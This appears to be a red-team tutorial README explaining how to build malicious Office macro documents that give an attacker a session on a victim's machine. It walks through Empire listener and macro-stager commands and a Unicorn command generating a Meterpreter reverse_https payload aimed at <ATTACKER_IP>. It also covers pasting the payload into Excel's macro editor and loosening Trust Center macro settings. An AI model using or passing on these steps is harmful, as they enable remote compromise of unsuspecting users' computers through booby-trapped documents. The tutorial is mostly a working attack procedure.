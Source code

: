 # Red Teaming Squad


## Macro

### What is Macro?

Whenever we work with an excel or a word file and we want a certain repetitive task that we wish just get automated without our intervention at that time we can use macro. Macros are similar to Visual Basic Scripts that can be crafted and shared and it works in the background without any knowledge of the user. We can use malicious macro to gain access of victim's machine. Attacker will create a word or excel file then attacker opens the macro editor to generate a script which can generate the session from victim'e machine to attacker's machine. 


### Generate macro payloads using Empire

You can install Empire tool from github or by executing ```git clone https://github.com/EmpireProject/Empire``` command. Navigate to ```Empire``` directory and execute ```./empire``` command. Now start a listener using ```uselistener http``` then check that your listener is active or not using ```listeners``` command.

<kbd>![](Macro_Payloads/1.png)</kbd>

Now create a stager using ```usestager windows/macro``` and link the stager with listener using ```set listener http``` command.

<kbd>![](Macro_Payloads/2.png)</kbd>

Check the stager information using 	```info``` command. Make changes in the values if needed. After that execute the stager which will generate the payload in ```/tmp``` directory.

<kbd>![](Macro_Payloads/3.png)</kbd>

You can check the payload using ```cat macro``` command.

<kbd>![](Macro_Payloads/4.png)</kbd>

Create an excel file and create a macro by following the steps which are shown in image. When you click on create button, macro editor will open.

<kbd>![](Macro_Payloads/5.png)</kbd>

You just need to replace the generated payload in macro editor and save the macro.

<kbd>![](Macro_Payloads/6.png)</kbd>

Now navigate to ```File > Options > Trust Center > Trust Center Settings```.

<kbd>![](Macro_Payloads/7.png)</kbd>

Click on ```Macro Settings``` and change the settings as shown in image and click on ```OK```. Now your payload is ready.

<kbd>![](Macro_Payloads/8.png)</kbd>


### Generate macro payloads using Unicorn

You can install unicorn tool from github or by executing ```git clone https://github.com/trustedsec/unicorn``` command. Navigate to ```unicorn``` directory and execute ```python unicorn.py windows/meterpreter/reverse_https <ATTACKER_IP> <LISTENING_PORT> macro``` command to create the macro payload.

<kbd>![](Macro_Payloads/9.png)</kbd>

You can check the payload using ```cat powershell_attack.txt``` command.

<kbd>![](Macro_Payloads/10.png)</kbd>

You can add the generated payload in macro editor to get the reverse shell.
